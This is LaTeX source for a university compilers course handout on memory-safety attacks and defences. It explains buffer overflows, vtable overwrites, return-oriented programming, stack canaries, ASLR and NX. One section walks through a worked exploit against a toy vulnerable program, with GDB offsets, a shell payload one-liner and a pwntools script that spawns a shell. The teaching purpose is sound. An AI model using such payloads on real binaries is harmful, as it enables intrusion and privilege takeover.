% !TEX program = xelatex
\documentclass[a4paper]{exam}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage[left=1.8cm,right=1.8cm,top=2.2cm,bottom=2.0cm]{geometry}
\usepackage{ctex}
\usepackage{enumerate}
\usepackage{fancyhdr}
\usepackage{xpatch}
\usepackage{graphicx} 
\usepackage{float} 
\usepackage{subfigure} 
\usepackage{amsfonts}
\usepackage{mathtools}
\usepackage{framed}
\usepackage{multicol}
\usepackage{minted}
\usepackage{hyperref}
\usepackage{tikz}
\usepackage{biblatex}
\addbibresource{12-discussion.bib}
\usetikzlibrary{automata,positioning}
\theoremstyle{definition}
\newtheorem*{solution*}{\textbf{Solution:}}
\newtheorem*{proof*}{\textbf{Proof:}}
\newtheorem{theorem}{Theorem}[subsection]
\newtheorem{definition}{Definition}[subsection]
\newtheorem{lemma}{Lemma}[subsection]
\makeatletter

\AtBeginDocument{\xpatchcmd{\@thm}{\thm@headpunct{.}}{\thm@headpunct{}}{}{}}
\makeatother

\pagestyle{fancy}
\renewcommand{\baselinestretch}{1.15}

\usepackage{paralist}
\let\itemize\compactitem
\let\enditemize\endcompactitem
\let\enumerate\compactenum
\let\endenumerate\endcompactenum
\let\description\compactdesc
\let\enddescription\endcompactdesc

% shorten footnote rule
\xpatchcmd\footnoterule
  {.4\columnwidth}
  {1in}
  {}{\fail}

\title{CS 131 Compilers: Discussion 12: Security}
\author{\textbf{杨易为}~~\textbf{吴凌云}~~\textbf{樊雨鑫} \\ \texttt{ \{yangyw,wuly2,fanyx\}@shanghaitech.edu.cn}}


\begin{document}
\maketitle
\section{Attacks\cite{cs161lec12}}


Buffer overflows, format string vulnerabilities, and the other examples
above are examples of \emph{memory safety} bugs: cases where an attacker
can read or write beyond the valid range of memory regions. Other
examples of memory safety violations include using a dangling pointer (a
pointer into a memory region that has been freed and is no longer valid)
and double-free bugs (where a dynamically allocated object is explicitly
freed multiple times).

``Use after free'' bugs, where an object or structure in memory is
deallocated (freed) but still used, are particularly attractive targets
for exploitation. Exploiting these vulnerabilities generally involve the
attacker triggering the creation of two separate objects that, because
of the use-after-free on the first object, actually share the same
memory. The attacker can now use the second object to manipulate the
interpretation of the first object.

C++ vtable pointers are a classic example of a \emph{heap overflow}. In
C++, the programmer can declare an object on the heap. Storing an object
requires storing a \emph{vtable pointer}, a pointer to an array of
pointers. Each pointer in the array contains the address of one of that
object's methods. The object's instance variables are stored directly
above the vtable pointer.

\begin{figure}
\centering

\includegraphics[width=6cm]{./img/vtable.png}
\caption{}
\end{figure}

If the programmer fails to check bounds correctly, the attacker can
overflow one of the instance variables of object \texttt{x}. If there is
another object above \texttt{x} in memory, like object \texttt{y} in
this diagram, then the attacker can overwrite that object's vtable
pointer.

The attacker can overwrite the vtable pointer with the address of
another attacker-controlled buffer somewhere in memory. In this buffer,
the attacker can write the address of some malicious code. Now, when the
program calls a method on object \texttt{y}, it will try to look up the
address of the method's code in \texttt{y}'s vtable. However,
\texttt{y}'s vtable pointer has been overwritten to point to
attacker-controlled memory, and the attacker has written the address of
some malicious code at that memory. This causes the program to start
executing the attacker's malicious code.

This method of injection is very similar to stack smashing, where the
attacker overwrites the rip to point to some malicious code. However,
overwriting C++ vtables requires overwriting a pointer to a pointer.

\subsection{Buffer Overflow}
C is a low-level language, meaning that the programmer is always exposed to the bare machine, one of the reasons why C is such a popular systems language. Furthermore, C is also a very old language, meaning that there are several legacy systems, which are old codebases written in C that are still maintained and updated. A particular weakness that we will discuss is the absence of automatic bounds-checking for array or pointer accesses. For example, if the programmer declares an array \texttt{char buffer[4]}, C will not automatically throw an error if the programmer tries to access \texttt{buffer[5]}. It is the programmer’s responsibility to carefully check that every memory access is in bounds. This can get difficult as your code gets more and more complicated (e.g. for loops, user inputs, multi-threaded programs).


It is through this absence of automatic bounds-checking that buffer
overflows take advantage of. A buffer overflow bug is one where the
programmer fails to perform adequate bounds checks, triggering an
out-of-bounds memory access that writes beyond the bounds of some memory
region. Attackers can use these out-of-bounds memory accesses to corrupt
the program's intended behavior.

\begin{minted}[mathescape,linenos]{c++}
char buf[8];
void vulnerable() {
    gets(buf);
}
\end{minted}


In this example, \texttt{gets()} reads as many bytes of input as the
user supplies (through standard input), and stores them into
\texttt{buf{[}{]}}. If the input contains more than 8 bytes of data,
then \texttt{gets()} will write past the end of \texttt{buf},
overwriting some other part of memory. This is a bug.

\begin{figure}
\centering

\includegraphics[width=4cm]{./img/overflow1.png}
\caption{}
\end{figure}

Note that \texttt{char\ buf{[}8{]}} is defined outside of the function,
so it is located in the static part of memory. Also note that each row
of the diagram represents 4 bytes, so \texttt{char\ buf{[}8{]}} takes up
2 rows.

\texttt{gets(buf)} writes user input from lower addresses to higher
addresses, starting at \texttt{buf}, and since there is no bounds
checking, the attacker can overwrite parts of memory at addresses higher
than \texttt{buf}.

To illustrate some of the dangers that this bug can cause, let's
slightly modify the example:

\begin{minted}[mathescape,linenos]{c++}
char buf[8];
int authenticated = 0;
void vulnerable() {
    gets(buf);
}
\end{minted}

Note that both \texttt{char\ buf{[}8{]}} and \texttt{authenticated} are
defined outside of the function, so they are both located in the static
part of memory. In C, static memory is filled in the order that
variables are defined, so \texttt{authenticated} is at a higher address
in memory than \texttt{buf} (since static memory grows upward and
\texttt{buf} was defined first, \texttt{buf} is at a lower memory
address).

Imagine that elsewhere in the code, there is a login routine that sets
the \texttt{authenticated} flag only if the user proves knowledge of the
password. Unfortunately, the \texttt{authenticated} flag is stored in
memory right after \texttt{buf}. Note that we use ``after'' here to mean
``at a higher memory address''.

\begin{figure}
\centering

\includegraphics[width=4cm]{./img/overflow2.png}
\caption{}
\end{figure}

If the attacker can write 9 bytes of data to \texttt{buf} (with the 9th
byte set to a non-zero value), then this will set the
\texttt{authenticated} flag to true, and the attacker will be able to
gain access.

The program above allows that to happen, because the \texttt{gets}
function does no bounds-checking; it will write as much data to
\texttt{buf} as is supplied to it by the user. In other words, the code
above is \emph{vulnerable}: an attacker who can control the input to the
program can bypass the password checks.

Now consider another variation:

\begin{minted}[mathescape,linenos]{c++}
char buf[8];
int (*fnptr)();
void vulnerable() {
    gets(buf);
}
\end{minted}


\texttt{fnptr} is a \emph{function pointer}. In memory, this is a 4-byte
value that stores the address of a function. In other words, calling
\texttt{fnptr} will cause the program to dereference the pointer and
start executing instructions at that address.

Like \texttt{authenticated} in the previous example, \texttt{fnptr} is
stored directly above \texttt{buf} in memory.

\begin{figure}
\centering

\includegraphics[width=4cm]{./img/overflow3.png}
\caption{}
\end{figure}

Suppose the function pointer \texttt{fnptr} is called elsewhere in the
program (not shown). This enables a more serious attack: the attacker
can overwrite \texttt{fnptr} with any address of their choosing,
redirecting program execution to some other memory location.

Notice that in this attack, the attacker can choose to overwrite
\texttt{fnptr} with any address of their choosing---so, for instance,
they can choose to overwrite \texttt{fnptr} with an address where some
malicious machine instructions are stored. This is a \emph{malicious
code injection} attack.

Of course, many variations on this attack are possible: the attacker
could store malicious code anywhere in memory and redirect execution to
that address.

Malicious code injection attacks allow an attacker to seize control of
the program. At the conclusion of the attack, the program is still
running, but now it is executing code chosen by the attacker, rather
than the original code.

For instance, consider a web server that receives requests from clients
across the network and processes them. If the web server contains a
buffer overrun in the code that processes such requests, a malicious
client would be able to seize control of the web server process. If the
web server is running as root, once the attacker seizes control, the
attacker can do anything that root can do; for instance, the attacker
can leave a backdoor that allows them to log in as root later. At that
point, the system has been
``\emph{owned}''\href{https://textbook.cs161.org/memory-safety/vulnerabilities.html\#fn:1}{1}.

The attacks illustrated above are only possible when the code satisfies
certain special conditions: the buffer that can be overflowed must be
followed in memory by some security-critical data (e.g., a function
pointer, or a flag that has a critical influence on the subsequent flow
of execution of the program). Because these conditions occur only rarely
in practice, attackers have developed more effective methods of
malicious code injection.
\subsection{Stack Overflow \cite{pwnutil}}
As we mentioned earlier, the gets function does not check the length of the input characters, so what happens if the input length is greater than the space requested by the variable?

 Yes, a stack overflow will occur. It will overwrite the excess data in other memory spaces.

 And according to the above flow, the stack space for arguments and variables are adjacent to each other, which means that if a stack overflow is generated, it will overwrite the return address and the arguments.
 
So, we can modify the arguments passed to the function by making the excess of the string read by gets overflow into the stack space where the arguments are stored.
We need to do the following.
\begin{enumerate}
    \item Find the address of the stack space where the argument key is stored.
    \item Find the address of the stack space where the variable starts to be stored.
    \item Calculate the difference between the two addresses and design the string that gets read in so that the destination string overwrites the argument.
\end{enumerate}

The following program is simple, it runs and calls the func function and passes the 0xdeadbeef parameter. Then use gets to read in the string and determine if the passed parameter is equal to 0xcafebabe, if it is then execute the shell, otherwise print Nah....
\begin{minted}[mathescape,linenos]{c++}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
\end{minted}
Start the GDB-peda
\begin{figure}
\centering

\includegraphics[width=12cm]{./img/overflow_eg1.png}
\caption{}
\end{figure}

We analyze the space address for storing the parameter key (the address at the top of the stack before the execution of the call) according to the above flow.
\begin{minted}[mathescape,linenos]{bash}
0000| 0xffffd1a0 --> 0xdeadbeef 
\end{minted}

Next, we determine the address where the variable starts to be stored. We place a breakpoint after gets in order to easily determine the location of the variable address, and then pass in a special character, such as 40 A's.
\begin{figure}
\centering

\includegraphics[width=12cm]{./img/overflow_eg2.png}
\caption{}
\end{figure}

With the following two lines of code, we can infer the address where the variable starts to be stored.
\begin{minted}[mathescape,linenos]{bash}
0000| 0xffffd160 --> 0xffffd170 ('A' <repeats 40 times>)
0016| 0xffffd170 ('A' <repeats 40 times>)
\end{minted}


Parameter start storage address: 0xffffd1a0
\\ Variable start storage address: 0xffffd170

 Calculate the difference between the two: \texttt{0xffffd1a0 - 0xffffd170 = 30H = 48}

Therefore, we need to fill in 48 characters + the override value.\\
Construct the following payload (using small-end storage).
\begin{minted}[mathescape,linenos]{bash}
(python -c 'print "a "*48 + "\xbe\xba\xfe\xca"'; cat -) | . /test
\end{minted}
After entering the command, the parameters are overwritten and the program executes the System function, successfully taking down the Shell! (We have taken root access and can execute any code)
\begin{figure}
\centering

\includegraphics[width=12cm]{./img/overflow_eg3.png}
\caption{}
\end{figure}

The shell code is 
\begin{minted}[mathescape,linenos]{python}
# coding:utf-8
from pwn import *
# 小端序转换函数
def p32_trans_iso_8859_1(value):
    result = p32(value).decode('iso-8859-1')
    return result
# 设置运行环境
context(arch='amd64', os='linux')
# process为本地程序,remote为远程调用
c = process("./bof_32-gcc4.8")
payload = 'A'*48 + p32_trans_iso_8859_1(0xcafebabe)
#print payload
# 向程序发送数据
c.sendline(payload)
# 获得shell
c.interactive()
\end{minted}
\subsection{Return Oriented Programming}


We can take this idea of returning to already-loaded code and extend it
further to now execute arbitrary code. Return-oriented programming is a
technique that overwrites a chain of return addresses starting at the
RIP in order to execute a series of ``ROP gadgets'' which are equivalent
to the desired malicious code. Essentially, we are constructing a custom
shellcode using pieces of code that already exist in memory. Instead of
executing an existing function, like we did in ``Return to libc'', with
ROP you can execute your own code by simply executing different pieces
of different code. For example, imagine we want to add 4 to the value
currently in the EDX register as part of a larger program. In loaded
memory, we have the following functions:

\begin{minted}[mathescape,linenos]{bash}
foo:
    ...
    0x4005a1 <foo+33> mov %edx, %eax
    0x4005a3 <foo+35> leave
    0x4005a4 <foo+36> ret
    ...
bar:
    ...
    0x400604 <bar+20> add $0x4, %eax
    0x400608 <bar+24> pop %ebx
    0x40060a <bar+26> leave
    0x40060b <bar+27> ret
\end{minted}

To emulate the \texttt{add\ \$0x4,\ \%edx} instruction, we could move
the value in EDX to EAX using the gadget in \texttt{foo} and then add 4
to EAX using the gadget in \texttt{bar}! If we set the first return
address to \texttt{0x004005a1} and the second return address to
\texttt{0x00400604}, we produce the desired result. Each time we jump to
ROP gadget, we eventually execute the \texttt{ret} instruction and then
pop the next return address off the stack, jumping to the next gadget.
We just have to keep track that our desired value is now in a different
register, and because we execute a \texttt{pop\ \%ebx} instruction in
\texttt{bar} before we return, we also have to remember that the value
in EBX has been updated after executing these gadgets---but these are
all behaviors that we can account for using standard compiler
techniques. In fact, so-called ``ROP compilers'' exist to take an
existing vulnerable program and a desired execution flow and generate a
series of return addresses.

The general strategy for executing ROPs is to write a chain of return
addresses at the RIP to achieve the behavior that we want. Each return
address should point to a gadget, which is a small set of assembly
instructions that already exist in memory and usually end in a
\texttt{ret} instruction (note that gadgets are not functions, they
don't need to start with a prologue or end with an epilogue!). The
gadget then executes its instructions and ends with a \texttt{ret}
instruction, which tells the code to jump to the next address on the
stack, thus allowing us to jump to the next gadget!

If the code base is big enough, meaning that the code imports enough
libraries, there are usually enough gadgets in memory for you to be able
to run any shellcode that you want. In fact, ROP compilers exist on the
Internet that will automatically generate an ROP chain for you based on
a target binary and desired malicious code! ROP has become so common
that non-executable pages are no longer a huge issue for attackers
nowadays; while having writable and executable pages makes an attacker's
life easier, not a lot of effort has to be put in to subvert this
defense mechanism.


\subsection{Mitigation: Stack
canaries}

In the old days, miners would protect themselves against toxic gas
buildup in the mine by bringing a caged canary into the mine. These
particularly noisy birds are also sensitive to toxic gas. If toxic gas
builds up in the mine, the canary dies first, which gives the miners a
warning sign that the air is toxic and they should evacuate immediately.
The canary in the coal mine is a sacrificial animal: the miners don't
expect it to survive, but its death acts as a warning to save the lives
of the miners.

We can use this same idea to prevent against buffer overflow attacks.
When we call a function, the compiler places a known dummy value, the
\emph{stack canary}, on the stack. This canary value is not used by the
function at all, so it should stay unchanged throughout the duration of
the function. When the function returns, the compiler checks that the
canary value has not been changed. If the canary value has changed, then
just like the canary in the mine dying, this is evidence that something
bad has happened, and the program will crash before any further damage
is done.

Like the canary in the coal mine, the stack canary is a sacrifical
value: it has no purpose in the function execution and nothing bad
happens if it is changed, but the canary changing acts as a warning that
someone may be trying to exploit our program. This warning lets us
safely crash the program instead of allowing the exploit to succeed.

The stack canary uses the fact that many common stack smashing attacks
involve overflowing a local variable to overwrite the saved registers
(sfp and rip) directly above. These attacks often write to
\emph{consecutive, increasing} addresses in memory, without any gaps. In
other words, if the attacker starts writing at a buffer and wants to
overwrite the rip, they must overwrite everything in between the buffer
and the rip.

The stack canary is placed directly above the local variables and
directly below the saved registers (sfp and rip):

\begin{figure}
\centering

\includegraphics[width=4cm]{./img/canary.png}
\caption{}
\end{figure}

Suppose an attacker wants to overflow a local variable to overwrite the
rip on the stack, and the vulnerability only allows the attacker to
write to consecutive, increasing addresses in memory. Then the attacker
must overwrite the stack canary before overwriting the rip, since the
rip is located above the buffer in the stack.

Before the function returns and starts executing instructions at the
rip, the compiler will check whether the canary value is unchanged. If
the attacker has attempted to overwrite the rip, they will have also
changed the canary value. The program will conclude that something bad
is happening and crash before the attacker can take control. Note that
the stack canary detects an attack before the function returns.

The stack canary is a random value generated at \emph{runtime}. The
canary is 1 word long, so it is 32 bits long in 32-bit architectures. In
Project 1, the canary is 32 completely random bits. However, in reality,
stack canaries are usually guaranteed to contain a null byte (usually as
the first byte). This lets the canary defend against string-based memory
safety exploits, such as vulnerable calls to \texttt{strcpy} that read
or write values from the stack until they encounter a null byte. The
null byte in the canary stops the \texttt{strcpy} call before it can
copy past the canary and affect the rip.

The canary value changes each time the program is run. If the canary was
the same value each time the program was run, then the attacker could
run the program once, write down the canary value, then run the program
again and overwrite the canary with the correct value. Within a single
run of the program, the canary value is usually the same for each
function on the stack.

Modern compilers automatically add stack canary checking when compiling
C code. The performance overhead from checking stack canaries is
negligible, and they defend against many of the most common exploits, so
there is really no reason not to include stack canaries when programming
in a memory-unsafe language.

\section{Defenses}
Common Protection Mechanisms

\begin{enumerate}
    \item ASLR: Address space layout randomization (ASLR, also known as address space configuration randomization and address space layout randomization) is a computer security technique to prevent memory corruption vulnerabilities from being exploited.
    \item RELRO: Set the symbol redirection table to read-only or resolve and bind all dynamic symbols at program startup, thus reducing attacks on the GOT (Global Offset Table).
\item PIE: Position-Independent-Executable is a feature of Binutils, glibc and gcc that can be used to create code between shared libraries and the usual executable code.

Standard executable programs require a fixed address and can only be executed correctly if they are loaded to that address. PIE enables programs to be loaded anywhere in main memory like a shared library, which requires compiling the program to be position independent and linking it as an ELF shared object.
\item NX: NX means No-eXecute. The basic principle of NX is to mark the memory page where the data is located as non-executable, and when the program overflows successfully to shellcode, the program will try to execute instructions on the data page, at which point the CPU will throw an exception.
